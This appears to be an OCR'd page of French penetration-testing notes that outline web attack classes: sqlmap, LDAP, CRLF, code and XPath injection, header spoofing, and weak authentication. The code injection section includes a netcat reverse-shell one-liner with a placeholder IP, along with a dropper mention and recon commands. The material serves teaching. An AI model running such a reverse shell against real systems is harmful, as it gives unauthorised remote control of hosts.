 #### SQLMAP

Outil automatisant le processus de recherche et d’exploitation d’injection SQL

Il est capable d’énumérer les bases et colonnes ainsi que de dumper le  contenu  

Une fonctionnalité de recherche et d’exploitation via les googles dorks est  également disponibles

### Injection LDAP

Injecte des instructions LDAP (Lightweight Directory Access Protocol) pour exécuter des  
commandes, y compris l’octroi d’autorisations et la modification du contenu d’un arbre LDAP.  

Le principe est le même que l'injection SQL mais avec la syntax LDAP &, (, ), *

### Injection CRLF

Injecte une séquence de caractères CRLF (Carriage Return and Line Feed) imprévue utilisée pour  
diviser une en-tête de réponse HTTP et écrire des contenus arbitraires dans le corps de la  réponse.  

L’injection est souvent utilisés pour échapper les mécanisme de défense (Sanitization, regex,  
WAF, …) dans les injections SQL, injections de commandes, ...

### Injection de code

Injecte du code dans une application qui exécute des commandes système en tant qu’utilisateur  
de l’application Web.  
Les attaques avancées peuvent utiliser des vulnérabilités d’escalade pour obtenir des privilèges  
encore plus élevés si nécessaire.

Lorsqu’une injection de commande est possible, l’attaquant tente souvent d’obtenir un shell  
système via les techniques classique de pentest :  
- **Dropper**  (powershell -command dropper)
- **Reverse shell**  (nc <IP> 666 -e /bin/bash)
- **Information** de l’OS (whoami, uname -a)

### Header spoofing

Injection dans l’en-tête HTTP d’une requête pour lorsque ces données sont utilisées par  
l’application web.  

Vulnérabilité rare mais souvent combiné à d’autre vulnérabilités (LFI avec header injection)

### Injection XPath

Injecte des instructions dans une application web au travers de requêtes XPath. Cela permet  
d’accéder à des données privées ou contourner une authentification.

## Faiblesse du système d'authentification

Les faiblesses du système d’authentification concernent généralement une authentification peu  
robuste  
- Mots de passes faibles  
- Mauvaise gestion des sessions  
- Cookie de session devinable  
- Attaque cryptographique connue
